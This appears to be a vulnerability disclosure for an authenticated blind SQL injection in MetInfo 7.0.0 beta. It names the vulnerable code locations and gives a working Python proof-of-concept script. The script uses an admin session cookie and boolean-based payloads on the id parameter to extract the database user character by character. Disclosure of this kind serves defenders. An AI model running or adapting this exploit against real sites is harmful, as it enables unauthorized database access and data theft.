


# The MetInfo 7.0.0 beta Background SQL Blind Injection 1 #

Description:In Metinfo 7.0.0 beta, SQL Injection was discovered in a admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1 &id=1 request via the id parameter.

## 1.Version Description: ##

Use the Google Chrome open this test site.download this version（```https://u.mituo.cn/api/metinfo/download/7.0.0beta```) and build a test site.


Current version as follow.


## 2.SQL Injection(Need to login) ##

locate in /app/system/ui_set/admin/index.class.php line:474 to 484


Line 481,all three parameters are retrieved from the form,The function doget_text_content call get_field_text,
and we follow the function locate in /app/system/include/class/view/compile.class.php line:294 to 309



In $query, directly to the id in the SQL statement.And make a SQL Injection.

And then we use this url：

> http://127.0.0.1/admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1&id=1

    
    #!/usr/bin/env python3
    # -*- coding: utf-8 -*-
    import requests
    import re
    payloads='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_-.'
    print ('Start to retrive current user:')
    user=''
    header={
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0',
    'Cookie':'Hm_lvt_520556228c0113270c0c772027905838=1570592565; re_url=http://127.0.0.1/admin/; PHPSESSID=e351ac2df468e9d187ecf31163c935dc; met_auth=e01fakMDoiG475LTUMYtNy2tJPH0tI8W7e3M7e12bzx8fIcVwM/3viTT6eJBMWuAfe6uqe8aB5BVMs3uz6XYBVz8zA;met_key=gCjlS1m;admin_lang=cn;page_iframe_url=http://127.0.0.1/index.php/lang=cn&pageset=1'#logged in admin's cookie
    }
    for i in range(1,23):
    for payload in payloads:
    url = "http://127.0.0.1/admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1&id=1"
    exp = " and (ascii(mid(lower(user()),%d,1))=%d)" %(i,ord(payload))
    url_vul=url+exp
    response=requests.get(url_vul,headers=header)
    if re.findall('\"status\":1',response.text):
    user=user+payload
    print ('\n user is:',user,)
    break
    else:
    print ('.',end='')
    print ('\n[Done] current mysql user is %s' %user)


Run this poc script.




And then we can get such as this page of mysql current user.

